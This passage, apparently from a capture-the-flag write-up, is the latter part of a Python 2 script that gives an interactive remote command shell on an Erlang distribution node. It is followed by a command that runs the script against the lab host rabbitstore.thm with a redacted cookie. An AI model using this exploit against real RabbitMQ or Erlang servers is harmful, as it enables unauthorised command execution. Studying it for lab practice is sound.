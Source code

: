 ```

def recv_reply(f):
  terms = [t for t in erl_dist_recv(f)]
  if args.verbose:
    print('\nReceived terms: %r' % (terms))

  if len(terms) < 2:
    print("Error: Unexpected number of terms received")
    return None

  answer = terms[1]
  if len(answer) != 2:
    print("Error: Unexpected structure in answer")
    return None

  return answer[1]


if not args.cmd:
  while True:
    try:
      cmd = raw_input('%s:%d $ ' % (args.target, args.port))
    except EOFError:
      print('')
      break

    sock.sendall(send_cmd(name, cmd))

    reply = recv_reply(sock)
    if reply:
      sys.stdout.write(reply)
    else:
      print("Failed to receive a valid reply")

else:
  sock.sendall(send_cmd(name, args.cmd))

  reply = recv_reply(sock)
  if reply:
    sys.stdout.write(reply)
  else:
    print("Failed to receive a valid reply")


print('[*] disconnecting from victim')
sock.close()

```

```
python2 shell-erldp2.py rabbitstore.thm 25672 REDACTED
```
